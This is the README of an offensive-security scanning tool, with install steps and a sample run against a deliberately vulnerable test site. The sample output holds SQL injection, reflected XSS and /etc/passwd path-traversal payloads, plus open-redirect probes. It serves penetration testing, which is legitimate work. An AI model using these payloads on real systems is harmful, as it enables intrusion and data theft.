 <h1 align="center">yublueflower</h1>

<p align="center">
  A suite integrating open-source workflows tailored for offensive security.
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white">
</p>

## Overview

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Usage:
yublueflower -url http://testphp.vulnweb.com/

Options:
-help                 Show help message.
-url <URL>            Scan as well as test utilizing security flaw templates.
-highly-aggressive    Highly aggressive testing.
-silent               Skip URL gathering noise to keep testing clean.
```

A suite integrating open-source workflows tailored for offensive security, yublueflower provides comprehensive vulnerability assessments.
This tool is designed to be flexible and effective in supporting offensive security workflows. It has been tested to work smoothly on WSL (Windows Subsystem for Linux) with Kali Linux.

## Features

- **Reconnaissance Phase**:
  - Aggressively gathering URLs.
- **Vulnerability Assessment Phase**:
  - Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates.
- **Reporting Phase**:
  - Results flawlessly generated.
- **Options**:
  - Highly aggressive testing.
  - Skip URL gathering noise to keep testing clean.

## System Requirements

- **Operating System**: WSL (Windows Subsystem for Linux) with Kali Linux
- **Dependencies**: go.dev (see [installation instructions](https://go.dev/doc/install))
- **Dependencies**: nodejs (see [installation instructions](https://nodejs.org/en/download))

## Installation

To install yublueflower, clone the repository and set up the tool as follows:

```bash
git clone https://github.com/1337rokudenashi/yublueflower.git
cd yublueflower
chmod +x yublueflower
bash yublueflower
```

## Usage

To run the tool, use the following command:

```bash
yublueflower -url http://testphp.vulnweb.com/
```

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Testing started at 13:37:01 01-03-2025
🟢 Reconnaissance Phase: Aggressively gathering URLs...
http://testphp.vulnweb.com/redir.php?r=https://getgophish.com/
http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 AND UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT (ELT(3477=3477,1))),0x716b786b71),6541)
http://testphp.vulnweb.com/artists.php?artist=1 order by 4
http://testphp.vulnweb.com/product.php?pic=3) AND 4294=2769 AND (1005=1005
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/?
http://testphp.vulnweb.com/showimage.php?ﬁle=13745325-cd3d-4961-b71d-d04727bb02b0
http://testphp.vulnweb.com/comment.php?aid=' UNION SELECT * FROM information_schema --
http://testphp.vulnweb.com/search.php?test=<USER_INPUT>
http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1 OR 17-7=10CONFIRMED
http://testphp.vulnweb.com/hpp/params.php?aaaa/=
http://testphp.vulnweb.com/login.php?id=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1 OR 17-7=10 PROCEDURE ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT (CASE WHEN (6706=6706) THEN 1 ELSE 0 END)),0x716a627a71)),1)
http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja
http://testphp.vulnweb.com/˓→artists.php?artist=0
http://testphp.vulnweb.com/secured/phpinfo.php?=PHPE9568F35-D428-11d2-A769-00AA001ACF42
http://testphp.vulnweb.com/pictures/credentials.txtA01http://testphp.vulnweb.com/product.php?pic=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-
http://testphp.vulnweb.com/˓→listproducts.php?cat=FUZZ*********************************************************
http://testphp.vulnweb.com/index.zipA01http://testphp.vulnweb.com/listproducts.php?artist=1A01
http://testphp.vulnweb.com/index.php?%id%=1
http://testphp.vulnweb.com/categories.php/listproducts.php?cat='
http://testphp.vulnweb.com/artist.php?artist=1
http://testphp.vulnweb.com/hpp/?pp=12
http://testphp.vulnweb.com/artists.php?artist=3
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/hpp/params.php?p=valid
http://testphp.vulnweb.com/showimage.php?file=./pictures/3.jpg
http://testphp.vulnweb.com/product.php?pic=6
🟢 Vulnerability Assessment Phase: Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates...
[waf-detect:nginxgeneric] [http] [info] http://testphp.vulnweb.com/
[php-errors] [http] [info] http://testphp.vulnweb.com/ ["Warning: mysql_connect()"]
[nginx-version] [http] [info] http://testphp.vulnweb.com/ ["nginx/1.19.0"]
[php-detect] [http] [info] http://testphp.vulnweb.com/ ["5.6.40"]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1+OR+17-7=10+PROCEDURE+ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT+(CASE+WHEN+(6706=6706)+THEN+1+ELSE+0+END)),0x716a627a71)),1)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/AJAX/infoartist.php?id=1+AND+UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT+(ELT(3477=3477,1))),0x716b786b71),6541)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:test] [GET]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt+src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja'"><69347> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>'"><69347> [query:test] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005'"><69347> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4'"><69347> [query:artist] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0'"><69347> [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=3' ["check the manual that corresponds to your MySQL server version","SQL syntax; check the manual that corresponds to your MySQL"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=6' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1'"><77225> [query:cat] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=6'"><77225> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/params.php?p=valid'"><77225> [query:p] [GET]
[linux-lfi-fuzz] [http] [high] http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp=12'"><77225> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=3'"><77225> [query:artist] [GET]
🟢 Reporting Phase: Results flawlessly generated...
Results at /home/yublueflower/glow_yublueflower
Testing finished at 13:44:01 01-03-2025
Use command glow yublueflower_20250301_133701 to read results.
```

## Contributing

We welcome contributions! Feel free to fork the repository, improve the tool, and submit a pull request.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Author

Developed and maintained by 1337rokudenashi.
